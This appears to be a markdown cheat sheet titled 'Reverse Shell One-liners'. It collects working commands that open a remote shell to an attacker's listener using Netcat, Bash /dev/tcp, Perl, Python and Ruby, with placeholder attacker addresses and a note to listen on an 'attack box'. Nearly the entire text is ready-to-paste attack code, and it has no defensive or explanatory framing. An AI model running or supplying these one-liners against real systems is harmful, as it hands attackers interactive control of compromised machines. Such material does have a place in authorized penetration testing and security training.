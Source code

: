 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

For all these below mentioned you should be listening on your attack box 

### 1. Netcat

For old versions of netcat -  

	nc attackerip 4444  -e /bin/sh
	/bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
	rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
	sudo apt-get install netcat-traditional

### 2. Bash

	bash -i >& /dev/tcp/<attacker ip>/4444 0>&1  

### 3. PERL  
Good ol' PERL, nearly every system has it and is a cornerstone of utility -  
	
    perl -e 'use Socket;$i="127.0.0.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 4. Python

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### 5. Ruby
	ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'